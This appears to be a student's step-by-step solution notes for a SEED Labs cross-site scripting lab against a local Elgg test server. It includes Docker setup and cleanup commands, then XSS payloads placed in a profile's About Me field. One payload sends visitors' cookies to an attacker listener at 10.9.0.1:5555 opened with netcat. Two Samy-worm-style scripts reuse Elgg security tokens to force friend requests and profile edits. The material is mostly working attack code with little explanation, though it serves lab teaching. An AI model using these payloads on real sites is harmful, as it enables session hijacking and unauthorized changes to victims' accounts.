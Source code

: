 # SETUP
edit hosts
```bash
sudo gedit /etc/hosts &>/dev/null &
```

to remove previous containers
```bash
docker rm -vf $(docker ps -a -q)
```

to remove all images
```bash
docker rmi -f $(docker images -a -q)
```



```bash
dcbuild
dcup
```
open a new tab of cmd
```bash
dockps
```

to clear database
```bash
sudo rm -rf mysql_data
```

## Open a new tab of cmd
```bash
docksh 36b1
```



## Task 1

http://www.seed-server.com/
<br> Go to the seed server, log in to samy, edit profile, then save 

```js
<script>alert("XSS");</script>
```

## Task 2
same as task 1

```javascript
<script>alert(document.cookie);</script>
```

## Task 3

open a new tab of cmd
<br>start listenning to a port
```bash
nc -lknv 5555
```

in samy profile

```javascript
<script>document.write('<img src=http://10.9.0.1:5555?c='+escape(document.cookie) + '>');</script>
```
now log in to alice and samy profile


## Task 4

### Samy guid : 59

The code should be placed in the "About Me" field of Samy’s profile page

```javascript
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```
paste the code in addfriend.js file

```bash
touch addfriend.js
sudo gedit addfriend.js &>/dev/null &
```

log out samy. log in to alice. see samy profile. then check friend of alice.


## Task 5
copy and paste code

```bash
touch editProfile.js
sudo gedit editProfile.js &>/dev/null &
```

```javascript
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var desc = "&description=samy is my hero.&accesslevel[description]=2"
//Construct the content of your url.
var content=token + ts + userName + desc + guid;
//FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
if(elgg.session.user.guid!=samyGuid)
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```








